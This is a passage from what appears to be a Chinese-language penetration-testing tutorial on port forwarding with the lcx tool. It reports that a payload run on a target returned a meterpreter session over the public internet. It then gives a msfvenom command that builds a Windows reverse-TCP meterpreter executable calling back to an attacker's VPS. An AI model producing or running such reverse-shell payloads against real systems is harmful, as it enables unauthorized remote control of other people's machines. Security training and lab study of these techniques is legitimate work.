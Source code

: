 在目标执行paylaod，meterpreter从公网正常弹回来

![](/img/hack/%E7%AB%AF%E5%8F%A3%E8%BD%AC%E5%8F%91/lcx/sessions.png)

### lcx的listen

先使用msfvenom生成反向连接的meterpreter，LHOST填写vps的地址：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=VPS的IP LPORT=5353 -f exe -o Fuck.exe
```
